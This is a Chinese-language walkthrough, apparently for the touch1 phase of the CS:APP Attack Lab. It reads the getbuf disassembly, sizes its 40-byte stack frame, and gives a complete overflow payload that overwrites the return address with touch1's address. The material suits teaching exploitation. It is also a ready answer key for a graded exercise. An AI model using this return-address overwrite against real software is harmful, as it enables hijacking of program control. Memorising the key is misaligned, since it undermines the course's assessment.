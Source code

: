我们所需要做的，就是在调用 `getbuf` 函数返回时，不返回到 `test` 函数，而返回到 `touch_`函数。

并且需要使用的攻击方式是注入代码 / 字节，使缓冲区溢出。

### touch1

缓冲区溢出攻击

> 通过缓冲区溢出，修改返回的地址，使控制权发生更改到指定的位置

```c
void touch1(){
	vlevel = 1; /* Part of validation protocol */
	printf("Touch1!: You called touch1()\n");
	validate(1);
	exit(0);
}

```

`touch1` 很简单，我们可以阅读 `getbuf` 部分的汇编可以发现：

```asm
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq
  4017be:	90                   	nop
  4017bf:	90                   	nop
```

`getbuf` 分配了 $40$ 个字节的栈帧（在 `sub $0x28, %rsp` 中得出）。于是，为了返回时跳转到 `touch1` 函数，我们只需要先填满 `getbuf` 的栈帧，然后将返回处的地址改为 `touch1` 的地址。我们可以从 `touch1` 的汇编得到其地址：

```asm
00000000004017c0 <touch1>:
  4017c0:	48 83 ec 08          	sub    $0x8,%rsp
  4017c4:	c7 05 0e 2d 20 00 01 	movl   $0x1,0x202d0e(%rip)        # 6044dc <vlevel>
  4017cb:	00 00 00
  4017ce:	bf c5 30 40 00       	mov    $0x4030c5,%edi
  4017d3:	e8 e8 f4 ff ff       	callq  400cc0 <puts@plt>
  4017d8:	bf 01 00 00 00       	mov    $0x1,%edi
  4017dd:	e8 ab 04 00 00       	callq  401c8d <validate>
  4017e2:	bf 00 00 00 00       	mov    $0x0,%edi
  4017e7:	e8 54 f6 ff ff       	callq  400e40 <exit@plt>
```

也就是 `0x4017c0`。于是答案为：

```asm
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```

